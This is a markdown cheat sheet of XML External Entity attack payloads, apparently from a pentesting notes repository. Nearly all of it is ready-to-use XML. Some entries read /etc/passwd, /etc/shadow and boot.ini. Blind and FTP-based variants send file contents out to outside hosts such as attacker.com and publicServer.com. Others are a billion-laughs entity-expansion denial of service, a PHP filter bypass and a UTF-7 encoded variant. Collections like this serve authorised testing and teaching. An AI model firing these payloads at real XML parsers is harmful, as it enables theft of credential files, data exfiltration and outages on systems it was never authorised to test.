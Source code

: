 # XML eXternal Entity
## Refs

* https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
* https://en.wikipedia.org/wiki/XML_external_entity_attack
* https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md
	* https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb
	* http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html

## Examples
**LFI Tests**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>
 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>

```

**Blind LFI test (when first case doesn't return anything)**

```xml

<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```

**Access Control bypass (loading restricted resources - PHP example)**

```xml

<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```

**XEE #2 (Remote attack - through external xml inclusion)**

```xml

<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY test SYSTEM "https://example.com/entity1.xml">]>
<lolz><lol>3..2..1...&test<lol></lolz>
```

**SSRF Test**

```xml

<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

**XEE (XML Entity Expansion - DOS)**

```xml

<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```


**XXE FTP HTTP Server**


```
<!DOCTYPE data [
<!ENTITY % remote SYSTEM "http://publicServer.com/parameterEntity_sendftp.dtd">
%remote;
%send;
]>
<data>4</data>

File stored on http://publicServer.com/parameterEntity_sendftp.dtd

<!ENTITY % param1 "<!ENTITY &#37; send SYSTEM 'ftp://publicServer.com/%payload;'>">
%param1;
```

**XXE UTF-7**

```
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```
To convert between UTF-8 & UTF-7 use recode.
`recode UTF8..UTF7 payload-file.xml`